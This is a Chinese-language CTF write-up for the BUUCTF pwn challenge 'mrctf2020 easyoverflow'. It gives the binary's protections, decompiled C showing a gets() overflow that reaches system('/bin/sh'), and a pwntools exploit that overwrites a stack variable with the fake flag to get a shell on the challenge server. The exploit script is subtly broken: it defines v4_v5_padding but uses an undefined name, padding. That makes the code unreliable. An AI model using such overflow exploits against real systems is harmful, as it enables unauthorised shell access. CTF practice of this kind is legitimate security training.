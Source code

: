 ```yaml
---
author: 
  name: Zephyr
title: mrctf2020 easyoverflow
date: 2022-4-6 18:02:23
permalink: /pages/2e1547494524d1ab
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# mrctf2020 easyoverflow

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/mrctf2020_easyoverflow/mrctf2020_easyoverflow'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-70h]
  __int64 v5; // [rsp+30h] [rbp-40h]
  __int64 v6; // [rsp+38h] [rbp-38h]
  __int64 v7; // [rsp+40h] [rbp-30h]
  __int64 v8; // [rsp+48h] [rbp-28h]
  __int64 v9; // [rsp+50h] [rbp-20h]
  __int64 v10; // [rsp+58h] [rbp-18h]
  __int16 v11; // [rsp+60h] [rbp-10h]
  unsigned __int64 v12; // [rsp+68h] [rbp-8h]

  v12 = __readfsqword(0x28u);
  v5 = 7376685493371762026LL;
  v6 = 7440000900169689920LL;
  v7 = 0LL;
  v8 = 0LL;
  v9 = 0LL;
  v10 = 0LL;
  v11 = 0;
  gets(&v4, argv);
  if ( !(unsigned int)check((__int64)&v5) )
    exit(0);
  system("/bin/sh");
  return 0;
}
```

check函数如下：

```c
signed __int64 __fastcall check(__int64 a1)
{
  int i; // [rsp+18h] [rbp-8h]
  int v3; // [rsp+1Ch] [rbp-4h]

  v3 = strlen(fake_flag);
  for ( i = 0; ; ++i )
  {
    if ( i == v3 )
      return 1LL;
    if ( *(_BYTE *)(i + a1) != fake_flag[i] )
      break;
  }
  return 0LL;
}
```

静态链接

## 思路分析

1. 目前信息：

   - main函数存在溢出点
   - check检查若v5!=fake_flag则程序退出
   - Canary found
   - NX enabled
   - PIE enabled
2. 思路：
   - 输入点在v4，用v4溢出修改v5为fake_flag的值就可获得shell

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/mrctf2020_easyoverflow/mrctf2020_easyoverflow'
io = remote('node4.buuoj.cn', 25009)
# io = process(pwnfile)
elf = ELF(pwnfile)
v4_v5_padding = 0x30
payload = flat(['a'*padding, 'n0t_r3@11y_f1@g'])
io.sendline(payload)
io.interactive()
```

